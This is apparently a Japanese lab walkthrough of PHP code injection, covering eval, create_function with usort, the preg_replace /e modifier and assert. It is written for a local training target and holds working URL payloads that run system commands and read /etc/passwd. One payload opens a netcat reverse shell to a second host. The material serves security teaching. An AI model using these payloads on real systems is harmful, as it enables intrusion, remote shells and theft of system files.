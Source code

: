 このセクションでは、コードの実行について取り上げます。コード実行は、ユーザが制御するデータのフィルタリングやエスケープの欠如から発生します。コードインジェクションを悪用する場合、アプリケーションに送信する情報の中にコードを注入する必要があります。例えば、ls コマンドを実行したい場合、アプリケーションは PHP アプリケーションなので、system("ls") を送信する必要があります。   
ウェブアプリケーションの問題の他の例と同様に、残りのコードをコメントアウトする方法を知っていると常に便利です（つまり、アプリケーションがユーザー制御のデータに追加するサフィックス）。PHP では、アプリケーションによって追加されたコードを取り除くために // を使用することができます。   
SQLインジェクションと同様に、同じ値のテクニックを使って、コードインジェクションをテストし、確認することができます。   
- コメントを使用し、/* random value */を注入する。
- 単純に連結した "." を注入する(ここで、" は構文を破り、正しく再構築するために使用されます。)   
- ハッカーの代わりに「. "ha". "cker".」のように、提供したパラメータを文字列連結で置き換えることで、hackerにすることができます。
# <span style="color: blue;">Example1</span>
この最初の例は、些細なコードインジェクションです。シングルクォートを注入すると、何も起こりません。しかし、二重引用符を注入することで、問題のより良いアイデアを得ることができます。   
>http://192.168.100.185/codeexec/example1.php?name=hacker<span style="color:red;">"</span>   
> Parse error: syntax error, unexpected '!', expecting ',' or ';' in /var/www/codeexec/example1.php(6) : eval()'d code on line 1

>>この場合、シングルクォートを使用するとエラーが発生し、ダブルクォートを使用すると発生しないことがあります。   

二重引用符が構文を破り、関数evalが我々の入力を使っているように見えることを確認しました。このことから、同じ結果を得るためのペイロードを考え出すことができます。   
- <span style="color:DeepSkyBlue;">"."</span>: 文字列の連結を追加しているだけなので、これで同じ値が得られるはずです。
- <span style="color:DeepSkyBlue;">"./*pentesterlab*/"</span>: 文字列の連結とコメント内の情報を追加しているだけなので、これで同じ値が得られるはずです。   
さて、似たような値が動作するようになったので、コードを注入する必要があります。コードを実行できることを示すために、コマンドを実行してみましょう (たとえば uname -a でコードを実行します)。完全な PHP コードは次のようになります。
```
.system('uname -a');
```
ここでの課題は、コード構文から脱却し、きれいな構文を保つことです。やり方はいろいろあります。]
- ダミーコードの追加:<span style="color:DeepSkyBlue;">".system('uname -a'); $dummy="</span>
- コメントを使用:<span style="color:DeepSkyBlue;">".system('uname -a');#</span> or <span style="color:DeepSkyBlue;">".system('uname -a');//</span>   

リクエストを送信する前に、いくつかの文字（#と ;）をURLエンコードする必要があることを忘れないでください。
```
http://192.168.100.185/codeexec/example1.php?name=hacker
```
```
http://192.168.100.185/codeexec/example1.php?name=hacker#.system(%27uname%20-a%27)%3b%23
```
# <span style="color: blue;">Example 2</span>
情報を発注する際、開発者は2つの方法を使います。
- SQLリクエストでorder by
- PHPコードでusort

<u>関数 usort は、<span style="color:red;">関数 create_function</span> とともに、ユーザが管理する情報に基づいて動的に「ソート」関数を生成するためによく使われます。</u>ウェブアプリケーションが強力なフィルタリングと検証を欠いている場合、これはコードの実行につながる可能性があります。  
シングルクォートを注入することで、何が起こっているのかを知ることができます。   
http://192.168.100.185/codeexec/example2.php?order=id<span style="color:red;">'</span>    
>Parse error: syntax error, unexpected T_CONSTANT_ENCAPSED_STRING in /var/www/codeexec/example2.php(22) : runtime-created function on line 1 Warning: usort() expects parameter 2 to be a valid callback, no array or string given in /var/www/codeexec/example2.php on line 22

この関数のソースコードは次のようになります。
```
ZEND_FUNCTION(create_function)
{
  [...]
    eval_code = (char *) emalloc(eval_code_length);
    sprintf(eval_code, "function " LAMBDA_TEMP_FUNCNAME "(%s){%s}", Z_STRVAL_PP(z_function_args), Z_STRVAL_PP(z_function_code));

    eval_name = zend_make_compiled_string_description("runtime-created function" TSRMLS_CC);
    retval = zend_eval_string(eval_code, NULL, eval_name TSRMLS_CC);
  [...]
```
  評価されるコードが中括弧{...}の中に入っているのがわかります。インジェクションの後、構文を正しく終了させるためには、この情報が必要なのです。   
  先ほどのコードインジェクションとは対照的に、ここではシングルクォートまたはダブルクォートの中にインジェクションするわけではありません。ステートメントを } で閉じ、残りのコードを // または # (エンコーディング付き) でコメントアウトする必要があることがわかります。次のように試してみることができます。
  - <span style="color:DeepSkyBlue;">?order=id;}//</span>:エラーメッセージが表示される(パースエラー: 構文エラー、予期しない ';').おそらく、1つ以上のブラケットが欠けているのでしょう。
  - <span style="color:DeepSkyBlue;">?order=id);}//</span>:警告を受ける。それくらいがちょうどいいようです。
  - <span style="color:DeepSkyBlue;">?order=id));}//</span>:エラーメッセージが表示される(パースエラー: 構文エラー、予期しない ')' i).閉じ括弧が多すぎるのでしょう。
 
 コードを正しく終了させる方法がわかったので（警告では実行の流れが止まらない）、任意のコードを注入してコード実行を得ることができる <span style="color:DeepSkyBlue;">?order=id);}system('uname%20-a');//</span>などで。
 ```
 http://192.168.100.185/codeexec/example2.php?order=id
 ```
 ```
 http://192.168.100.185/codeexec/example2.php?order=id);}system(%27uname%20-a%27);//
 ```
 # <span style="color: blue;">Example 3</span>
 以前、複数行の正規表現を使った正規表現修飾子についてお話しました。もうひとつ、非常に危険な修飾子がPHPに存在します。<span style="color: red;">PCRE_REPLACE_EVAL (/e) </span>です。この修飾子は、関数 preg_replace が置換を実行する前に新しい値を PHP コードとして評価するようにします。  
 >PCRE_REPLACE_EVAL は PHP 5.5.0 で非推奨となりました。  

>ここで、/e修飾子を付けて、パターンを変更する必要があります。このモディファイアを付けると、通知が来るはずです。   
>Notice: Use of undefined constant hacker - assumed 'hacker' in /var/www/codeexec/example3.php(3) : regexp code on line 1

```
http://192.168.100.185/codeexec/example3.php?new=hacker&pattern=/lamer/&base=Hello%20lamer
```
```
http://192.168.100.185/codeexec/example3.php?new=system(%27cat%20/etc/passwd%27)&pattern=/lamer/e&base=Hello%20lamer
```
php?new=<span style="color:DeepSkyBlue;">system('nc+-e+/bin/sh+192.168.100.191+4444')</span>&pattern=/lamer<span style="color:DeepSkyBlue;">/e</span>&base=Hello%20lamer
![c7d9c8a77a89d3a4d4938db03033c896.png](../../_resources/c7d9c8a77a89d3a4d4938db03033c896.png)
# <span style="color: blue;">Example 4</span>
この例は、assert 関数に基づいています。不正に使用された場合、この関数は受け取った値を評価します。この振る舞いを利用して、コードを実行させることができます。   
シングルクォートあるいはダブルクォート (文字列の宣言方法による) を注入することで、PHP がコードを評価しようとしたことを示すエラーメッセージを見ることができます。   
>Parse error: syntax error, unexpected T_ENCAPSED_AND_WHITESPACE in /var/www/codeexec/example4.php(4) : assert code on line 1 Catchable fatal error: assert(): Failure evaluating code: 'hacker'' in /var/www/codeexec/example4.php on line 4

一度、構文を壊してしまったら、それを正しく再構築する必要があります。次のように試してみましょう。  
```
hacker'.'
```
エラーメッセージが消えました。
```
http://192.168.100.185/codeexec/example4.php?name=hacker
```
```
http://192.168.100.185/codeexec/example4.php?name=hacker%27.phpinfo().%27
```
burp suiteで実施した場合
```
http://192.168.100.185/codeexec/example4.php?name=hacker'.system('cat+/etc/passwd').'
```
![0aa4fb111efe23f7367f71772e3e367d.png](../../_resources/0aa4fb111efe23f7367f71772e3e367d.png)